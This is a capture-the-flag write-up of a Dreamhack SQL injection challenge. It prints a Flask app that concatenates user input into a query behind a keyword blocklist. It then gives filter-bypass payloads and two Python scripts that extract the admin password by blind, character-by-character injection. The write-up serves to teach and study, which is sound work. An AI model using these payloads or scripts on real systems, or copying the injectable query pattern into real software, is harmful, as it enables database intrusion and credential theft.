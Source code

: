 ```yaml
---
layout: post
title:  "[Dreamhack]Advanced WAF Bypass SQLI"
date:   2024-04-25 00:29:20 +0700
categories: ctfwriteup
---
```


### Challenge Name : Advanced WAF Bypass SQLi

• The challenge source code is given below

```
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', 
            '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

• This challenge is advanced version of the previous challenge <code>`WAF bypass SQLI`</code>,The user input here is lower casted before checking into the check_WAF function.

• At first i tried basic concatenation [OR Operator] and it worked with <code>`'||1=1#` `'||1=0#`</code>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/work.png">

• Then i tried with <code>`'||length(upw)={length}#`</code> , i got success in calculating the length, like if the length is valid,the server will respond the uid but it seems if founded the upw of abcde which is a different user.

• Then started struggling with the idea of how to supply the admin uid, meanwhile i understood the exploitation part will require blind injection.

• The idea came in to use the [AND operator] && <code>`'||(uid='guest'&&length(upw)=5)#`</code>

• It worked and the responded with the uid guest.

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/length.png">

• Now we can use concat function to supply admin value in uid <code>`concat('adm','in)`</code>, We also know that the flag value is stored in admin upw and starts with 'D' since the flag format is 'DH{.*}'.

• I supplied the payload <code>`'||(uid=concat('adm','in')&&substr(upw,1,1)='D')#` and yesss! we recieved the response uid as admin which means we succceded!

• Now our idea is to  find the length of upw and below is the script i created that will help us to find the length!



```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"


length = 0

while True:
	payload = f"'||(uid=concat('adm','in')&&length(upw)={length})#"
	encoded_payload = urllib.parse.quote(payload)

	print(f"Trying length {length}")
	data = requests.get(f"{host}/?uid={encoded_payload}")
	if "admin" in data.text:
		break
	else:
		length=length+1

print(f"Admin upw length is {length}")
```
<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/length_script.png">


• The length of upw is 44 and now we can bruteforce each character and find the flag.

```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"

charSet = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'

length=44
pos=0
flag=''
for i in range(0,45):
	pos= pos+1
	for j in charSet:
		payload = f"'||(uid=concat('adm','in')&&substr(upw,{i},1)='{j}')#"
		encoded_payload = urllib.parse.quote(payload)
		data = requests.get(f"{host}/?uid={encoded_payload}")
		if "admin" in data.text:
			print(f"found character {j} in position {i}")
			flag = flag+j
			break

print(f"Flag : {flag}")
```

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/adv_flag.png">
